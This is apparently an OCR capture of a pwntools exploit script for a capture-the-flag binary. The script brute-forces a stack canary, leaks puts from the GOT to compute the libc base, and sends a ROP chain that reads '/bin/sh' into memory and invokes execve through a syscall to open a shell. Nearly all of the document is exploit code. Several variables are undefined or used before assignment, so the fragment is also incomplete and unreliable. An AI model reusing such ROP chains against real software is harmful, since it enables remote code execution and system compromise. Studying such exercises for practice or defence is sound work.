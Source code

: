 ```python
leave_ret = 0x000000000040142d
ret = 0x000000000040142E
addr_vuln = elf.sym["vuln"]

def rank_name(p, offset, data) :
    p.recvuntil("Rank: ")
    p.sendline(str(offset))
    p.recvuntil("Name: ")
    p.sendline(data)

def blast():
    while True:
        offset += 1
        p.close()
        p = process('./' + __file__[0:-3])

        p.recvuntil("Do you know who is the God of XDSEC? (*^_^*)\n")
        p.sendline("yes")

        rank_name(p, offset, new_cannry)
        rank_name(p, 2, "addd")

        gdb.attach(p, "thread 2\nb *0x40141D\nc")
    
        p.recvuntil("Finally, what's your name?\n")
        p.sendline((0x20 - 8) * "a" + 7 * "a")
        temp = p.recvall()

        print(offset)
    
p.recvuntil("Do you know who is the God of XDSEC? (*^_^*)\n")
p.send("yes\n")

rank_name(p, offset, new_cannry)
rank_name(p, 2, "addd")

p.recvuntil("Finally, what's your name?\n")
p.send((0x20 - 8) * b"a" + 7 * b"a" + b"\x00")
p.send(p64(0x404100) + p64(pop_rdi) + p64(got_puts) + p64(plt_puts) + p64(addr_vuln)[:-1])
p.send("\n")

p.recvuntil("you can be a god of XDSEC!\n")
addr_puts = u64(p.recv(6).ljust(8, b"\x00"))
print(hex(addr_puts))
addr_libc = addr_puts - libc.sym['puts']
addr_gets = addr_libc + libc.sym['gets']
addr_system = addr_libc + libc.sym['system']

addr_syscall = addr_libc + 0x000000000002284d
pop_rdx_r12 = addr_libc + 0x0000000000119241
pop_rax = addr_libc + 0x0000000000047400

gdb.attach(p, "thread 2")

p.recvuntil("Finally, what's your name?\n")
p.send((0x20 - 8) * b"a" + 7 * b"a" + b"\x00")
p.send(p64(0) + p64(pop_rdi) + p64(0x404060) + p64(addr_gets) + p64(addr_vuln))

p.send(b"/bin/sh\x00" + p64(ret) + p64(pop_rdi) + p64(0x404060) + p64(pop_rsi_r15) + p64(0) * 2 + p64(pop_rdx_r12) + p64(0) * 2 + p64(pop_rax) + p64(59) + p64(addr_syscall))
p.send("\n")

p.recvuntil("Finally, what's your name?\n")
```